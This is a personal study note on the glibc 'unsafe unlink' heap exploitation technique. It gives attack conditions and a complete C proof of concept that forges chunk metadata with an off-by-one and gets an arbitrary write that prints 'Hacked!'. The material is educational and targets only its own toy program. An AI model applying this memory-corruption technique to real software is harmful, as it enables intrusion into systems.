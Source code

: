 # Unsafe `unlink`
> LongChampion, 13/03/2020

The source code in this repository and an explantation at [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html) have descript all about this attack. So I will not try to make the description better here. Instead, I will write down some note about it:
- The size of chunk used in this attach must larger than MAX_FASTBIN_SIZE (0x80 on x64 system, 0x40 on x86 system)
- This is the fact that, field `pre_size` of the second chunk is belong to the first chunk, you can overwrite it freely.
- The `size` field of the second chunk is harder to control: it can't be directly access from both first chunk and second chunk. But we only want to set the last bit of `size` to zero, it can be easily done by an `off by one` error. However, in this case, the size of both chunk must be multiples of 0x100.
Look at my code:
```
#include <stdlib.h>
#include <unistd.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

const long long SIZE = 0xf0;

int main()
{
    char data[8] = "Hello!";
    void *first = malloc(SIZE);
    void *second = malloc(SIZE);

    struct Chunk *FAKE = (struct Chunk *) first;
    FAKE->fd = (struct Chunk *) (&first - 3);
    FAKE->bk = (struct Chunk *) (&first - 2);

    struct Chunk *secondHeader = (struct Chunk *) (second - 2 * 8);
    secondHeader->pre_size = SIZE;
    secondHeader->size &= ~0xff;

    free(second);
    *(long long *) (first + 3 * 8) = (long long) &data;
    *(long long *) first = 0x0a2164656b636148;

    write(1, (char *) data, 8);
}
```
At this time, you can understand all the code above. I set `SIZE = 0xF0` so that when I call `malloc(SIZE)`, it will return a chunk of size 0x100. And when I clear the last byte of `size`:
> `secondHeader->size &= ~0xff;`

the `size` is changed from 0x101 to 0x100 (chunk size unchanged!)  
You can set `SIZE` to 0x1F0, 0x2F0, etc... and this code still print *Hacked!* to your screen.
